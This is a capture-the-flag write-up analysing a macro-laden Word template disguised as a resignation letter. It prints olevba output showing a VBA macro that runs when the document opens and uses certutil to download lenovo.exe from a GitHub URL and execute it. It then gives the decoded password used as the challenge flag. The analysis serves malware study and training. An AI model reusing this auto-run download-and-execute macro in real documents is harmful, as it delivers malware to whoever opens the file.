 # Resign Letter

In this challenge, we were given a .rar file containing a .dotm resign letter template. When attempting to open the ```.dotm``` file, a warning about potential macros containing viruses appeared. The document itself contained only meaningless text. To analyze the embedded macros, we used the olevba tool with the following command:

```bash
$ olevba --decode Resign_letter_template/Resign\ letter\ template.dotm
```
```bash
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.10.12 - http://decalage.info/python/oletools
===============================================================================
FILE: /home/doq/Downloads/Resign_letter_template/Resign letter template.dotm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub Document_Open()
Test
End Sub

Private Sub Test()
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |https://github.com/f|URL                                          |
|          |areedfauzi/Adv_Sim/r|                                             |
|          |aw/main/lenovo.exe  |                                             |
|IOC       |certutil.exe        |Executable file name                         |
|IOC       |lenovo.exe          |Executable file name                         |
|Hex String|'\x00\x02\t\x06'    |00020906                                     |
|Hex String|'\x00\x00\x00\x00\x0|000000000046                                 |
|          |0F'                 |                                             |
+----------+--------------------+---------------------------------------------+

```
The output revealed a VBA macro that executed upon opening the document. The macro used certutil.exe to download and run a suspicious executable named ```lenovo.exe``` from a GitHub repository.

Upon downloading lenovo.exe, we examined its strings and discovered a command that created a user with the password ```cEBzczEyMw==```. This string was encoded in base64, and decoding it revealed the password: ```p@ss123```.

Thus, the flag for this challenge was:
##Flag
```RWSC{p@ss123}```
